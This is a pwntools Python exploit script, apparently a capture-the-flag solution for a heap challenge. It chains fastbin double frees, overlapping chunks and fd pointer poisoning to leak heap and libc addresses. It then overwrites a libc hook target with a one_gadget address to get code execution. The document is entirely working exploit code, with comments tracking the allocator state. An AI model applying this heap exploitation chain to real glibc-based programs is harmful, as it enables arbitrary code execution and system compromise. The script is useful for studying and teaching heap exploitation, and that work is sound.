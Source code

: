 ```py
    add(0x70,'1'*0x40 + p64(0) + p64(0x71) + '1'*0x10  + p64(0) + p64(0x21))
    add(0x90,p64(0) + p64(0x71) + '2'*0x30 + p64(0) + p64(0x71) + p64(0) + p64(0x21))
    #add(0x90,'3'*0x10 + p64(0) + p64(0xe1) + '1'*0x20 + p64(0) + p64(0x71))
    add(0xd0,'3333')
    free(1)
    free(3)    # 3->1
    free(0)    # 0->2->1
    add(0x10,'\xf0') #chunk number 4, which takes away 0th chunk for header and chunk 2 for note
    free(4)    # 4->1
    reu('will free: ')
    heap_base = u64(re(6) + '\x00'*2) - 0xf0
    log.info("heap @ " + hex(heap_base))
    free(1) #Double Free --  1->4->1
    free(3) # 3->1->4->1 
    fake_chunk = heap_base + 0x130
    fake_chunk_2 = heap_base + 0x90
    add(0x10,p64(fake_chunk)) #chunk number 5 , which takes chunk 3 as header and chunk 1 taken as note , its fd overwritten with fake chunk , => 4->1->fake_chunk
    free(2)    # 2->4->1->fake_chunk
    add(0x10,'\xf0') #chunk 6 , which takes chunk 2 as header and chunk 5 as its note, now fastbin left with => 1->fake_chunk
    #We get our overlapping chunk
    add(0x10,p64(0) + p64(0xe1)) # chunk number 7, Faking header's size to small bin , chunk 1 taken as header and fake_chunk returned as overlapping chunk
    free(2)
    add(0x10,'\x78') #Chunk 8, returned from unsorted bin having fd and bk as libc
    free(8)
    reu('will free: ')
    libc_base = u64(re(6) + '\x00'*2) - 0x3c4b78
    log.info('libc_base @ ' + hex(libc_base))
    one_gadget = libc_base + 0xf02a4
    target = libc_base + 0x3c4aed

    #Fake 0x71 size 2 chunks
    free(0) #0
    free(1) #1->0
    free(0) #0->1->0
    free(2) #2->0->1->0
    add(0x10,p64(fake_chunk_2)) #1->0->fake_chunk2
    free(2) #2->1->0->fake_chunk2
    add(0x10,'\xf0') #0->fake_chunk2
    add(0x10,p64(0) + p64(0x71)) 

    free(0) #0
    free(3) #3->0
    free(0) #0->3->0
    free(2) #2->0->3->0
    add(0x10,p64(fake_chunk)) #3->0->fake_chunk
    free(2) #2->3->0->fake_chunk
    add(0x10,'\xf0')
    add(0x10,p64(0) + p64(0x71))

    #free 0x71 chunks , double free
    free(2) #2
    free(1) #1->2
    free(2) #2->1->2
    add(0x60,p64(target)) #1->4->target
    add(0x60,p64(target)) #4->target
    add(0x60,p64(target)) #target->Null
    add(0x60,'a'*19 + p64(one_gadget)) #Getting the target chunk for writing one_gadget
    free(0)
    gdb.attach(io)
    free(0)
```
